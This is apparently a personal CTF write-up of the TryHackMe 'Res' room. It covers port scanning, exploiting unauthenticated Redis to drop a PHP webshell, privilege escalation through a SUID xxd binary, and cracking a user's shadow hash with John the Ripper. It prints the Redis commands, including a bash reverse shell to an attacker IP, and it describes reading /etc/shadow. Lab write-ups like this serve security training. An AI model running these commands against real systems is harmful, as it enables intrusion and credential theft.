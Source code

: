 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-17
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

[Redis](https://backendless.com/redis-what-it-is-what-it-does-and-why-you-should-care/) is a type of database that stores data entirely in main memory (RAM) rather than on disk. 

Its main benefit is that it provides **faster access** compared to a traditional disk-storaged database, and its main drawback is that it's **sensitive to data loss** in the event of a shutdown or a crash, since it is stored in memory.

![redis-flow](redis-flow.png)

Other than the knowledge of what Redis is, we don't really need much else to work our way through this room. To be honest, even that knowledge isn't necessary, but I find it always better to learn as much as possible for the technologies I am working with. 

If someone has used Redis before, and knows how to interact with it through CLI it will be beneficial for sure, but we will learn the required commands through a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) article anyway, so let's crack on 🏃‍♀️!

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this does not seem like the right answer to the question.

The default command, that is without any port specification, scans the [**most common 1,000 ports for each protocol**](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).), so we can try scanning for all 65_535 ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **Redis server on port 6379** appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if authentication is needed for accessing the Redis instance. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis instance's info. 

So, let's try it:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. To begin with, we need to create a reverse shell, this time using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog. Note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!

    ```bash
    # define the path of Apache's default directory
    config set dir /var/www/html/
    # create a "subdirectory" to host our reverse shell 
    config set dbfilename webshell.php
    # our reverse shell code
    set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
    # save our configuration
    save
    ```

 2. We then have to set up a listener to our machine:
 
    ```bash
    nc -lnvp 12345
    ```

 3. Finally, by visiting the newly-created server's subdirectory on our browser, `http://\<target-ip\>/webshell.php`, we receive our reverse shell 🎊!
  
    ![rce_setup](rce_setup.png)
 
With our **initial foothold** established, let's search for `user.txt`:

![flag1](flag1.jpg)

First 🚩 captured!

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, and we saw it again while getting our first flag under `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's start by trying to read `root.txt` first. We need to make sure to either be within `xxd`'s directory, by typing `cd /usr/bin/`, or provide the full path, that is `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough, and we have now captured our second 🚩. Let's go for some hash cracking now and get `vianka`'s password 🔒!

### 3.4 Hash Cracking with John The Ripper

1. Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

    ![xxd_shadow](xxd_shadow.png)

2. We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

    ![passwd](passwd.png)

3. Now, all we have to do is to unshadow the files locally, and pass the unshadowed file to `john` so he can do its magic 🪄:

    ![john](john_vianka.jpg)

And that's us done 🍻!
